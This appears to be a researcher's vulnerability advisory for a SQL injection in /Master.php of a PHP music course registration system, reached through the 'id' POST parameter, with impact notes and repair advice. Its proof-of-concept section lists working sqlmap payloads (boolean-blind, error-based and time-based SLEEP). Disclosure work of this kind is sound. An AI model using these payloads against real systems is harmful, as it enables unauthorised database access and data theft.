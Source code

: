 # A SQL injection vulnerability exists in Music Course Registration system project V1.0 /Master.php

## Vulnerability author:
liuyuanyuan

## NAME OF AFFECTED PRODUCT
PHP music course registration system project

## Vendor Homepage
https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

## VERSION: 
1.0
## Software Link
https://www.sourcecodester.com/download-code?nid=15362&title=Music+Class+Enrollment+System+in+PHP%2FOOP+Free+Source+Code

## Vulnerable File
/Master.php

# PROBLEM TYPE
## Vulnerability Type
SQL injection

## Root Cause
An SQL injection vulnerability was found in the /Master.php file of the Music Course Registration System project. The cause of the problem is that the attacker injects malicious code from the parameter "id" and uses it directly in the SQL query without proper cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized actions.

## Impact
Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
During the security review of the Music Course Registration System, I discovered a serious SQL injection vulnerability in the file "/Master.php". This vulnerability stems from inadequate validation of user input for the 'id' parameter, allowing an attacker to inject malicious SQL queries. As a result, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial action is needed to ensure system security and protect data integrity.

# Vulnerability details and POC
## Vulnerability lonameion:
'id' parameter

## Payload:
id=2' AND (SELECT 6431 FROM (SELECT(SLEEP(5)))hnlX)-- rKsm

---
Parameter: id (POST)

    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=2' RLIKE (SELECT (CASE WHEN (8134=8134) THEN 2 ELSE 0x28 END))-- AvJy

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=2' AND (SELECT 7824 FROM(SELECT COUNT(*),CONCAT(0x7176716b71,(SELECT (ELT(7824=7824,1))),0x717a767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nNIT

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 6431 FROM (SELECT(SLEEP(5)))hnlX)-- rKsm
---

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
Payload:
id=2' AND (SELECT 6431 FROM (SELECT(SLEEP(5)))hnlX)-- rKsm
![图片](https://github.com/user-attachments/assets/7070816d-6a3d-4fc4-bc3b-94d2d7851a95)
![图片](https://github.com/user-attachments/assets/99de9243-a2ac-4d66-a0e3-4aa194d3f5a4)


# Suggested repair
1.Use prepared statements and parameter binding:
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2.Input validation and filtering:
Strictly validate and filter user input data to ensure it conforms to the expected format.

3.Minimize database user permissions:
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4.Regular security audits:
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
